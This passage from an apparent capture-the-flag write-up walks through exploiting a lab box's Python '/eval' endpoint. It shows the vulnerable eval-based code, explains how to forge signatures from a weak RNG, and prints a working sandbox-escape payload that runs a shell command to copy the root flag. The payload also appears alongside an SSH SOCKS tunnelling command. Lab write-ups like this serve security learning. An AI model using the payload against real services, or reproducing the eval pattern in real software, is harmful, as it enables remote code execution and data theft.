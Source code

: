 ```python
        expr = req_data['expr']
        sig = req_data['sig']
        # Only signed expressions will be evaluated
        if not verify(str.encode(expr), str.encode(sig)):
            return "Bad signature"
        result = eval(expr, {'__builtins__':None}) # Builtins are removed, this should be pretty safe
        response = {'response':
                    {
                        'Expression': expr,
                        'Result': str(result)
                    }
                    }
        return json.dumps(response, sort_keys=True, indent=2)
    except:
        return "Error"

# Generate a sample expression and signature for debugging purposes
@route('/debug', method='GET')
def debug():
    expr = '2+2'
    sig = sign(str.encode(expr))
    response = {'response':
                {
                    'Expression': expr,
                    'Signature': sig.decode()
                }
                }
    return json.dumps(response, sort_keys=True, indent=2)

run(host='127.0.0.1', port=81, reloader=True)
```

We can see that by sending a request to "/eval", the expr parameter gets evaluated (and therefore executed). There is however two problems with this. The parameter sig needs to be a valid signature and all builtin functions are disabled.

To bypass the signature check we have to read the code. The function "secure\_rng" has a comment that suggests it might not be secure – which is true. When we print out the values it generates we can see some very small values being used and the repetition of values. The pool of possible values is therefore small and the seed values can be guessed in order to build a valid signature.

For the builtin functions you can use reflection / introspection to activate them again. I learned about that technique [here](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html). The final script that combines both can be found [here](https://gist.github.com/xct/3ba93f758fc07a0ca5b5dde66177e6ea).

We forward the port to our box with `ssh -D8081 -N rijndael@10.10.10.129` and setup burp to use the socks proxy – then we run the script:

```
[+] Signing expression..
Bruting..
{
  "response": {
    "Expression": "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('cp /root/root.txt /tmp/xct && chmod 777 /tmp/xct')",
    "Result": "0"
  }
}
301368188646828743948964542768906351868
```

